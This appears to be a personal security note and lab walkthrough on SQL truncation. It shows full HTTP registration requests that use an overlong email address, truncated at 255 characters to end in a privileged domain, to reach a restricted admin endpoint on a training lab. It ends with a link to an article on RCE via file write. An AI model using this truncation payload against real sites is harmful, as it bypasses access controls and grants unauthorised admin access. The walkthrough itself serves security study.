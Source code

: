 >[!summary]
>SQL truncation vulnerabilities occurs when the client, the server and the DBMS do not check consistently the length of user supplied input, resulting in the truncated storage of user input in the db caused by the laxed control of length by the server.

## Attack scenario

>[!info]
>A `/admin` endpoint exists but it's only accessible to users registered with the `@dontwannacry.com` email.

Registered a very long email:

```http
POST /register HTTP/1.1
Host: 0ad900c0033fdf32c106126b00ca004e.web-security-academy.net
Cookie: session=DHhTkd6GdW1WG2iHWcOKYTJr0BxrtZ0k
Content-Length: 148
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Connection: close

csrf=ecMNuZwDTSwGRsTGYvax1gXj8eiUugs7&username=user1&email=attacker%40aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.exploit-0a1800410308dfc1c12711a401170067.exploit-server.net&password=user1
```

Email has been truncated inside the db:

![](zzz_res/attachments/SQL-truncation1.png)
>[!note]-
>Email length is 255

Generated a very long email address that once truncated resulted in a different domain email:
attacker@aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbb.dontwannacry.com.exploit-0a1800410308dfc1c12711a401170067.exploit-server.net

Truncated result (255 lenght):
attacker@aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbb.dontwannacry.com

```http
POST /register HTTP/1.1
Host: 0ad900c0033fdf32c106126b00ca004e.web-security-academy.net
Cookie: session=5WIV520lP76FYcL229hV4EhNJCWAOUbc
Content-Length: 389
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Connection: close

csrf=hthHgzrgwAoViTeeWlwYBUF3Uwbkcsdk&username=user2&email=attacker@aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbb.dontwannacry.com.exploit-0a1800410308dfc1c12711a401170067.exploit-server.net&password=user2
```

![](zzz_res/attachments/SQL-truncation2.png)

Accessed the restricted area:

![](zzz_res/attachments/SQL-truncation3.png)

## SQL Truncation in file upload leading to RCE

Article: [RCE in admin panel via File Write](https://medium.com/@knownsec404team/the-analysis-of-mybb-18-20-from-stored-xss-to-rce-7234d7cc0e72#:~:text=generates%20the%20tag.-,RCE%20in%20Admin%20panel%20via%20File%20Write,-In%20the%20backend)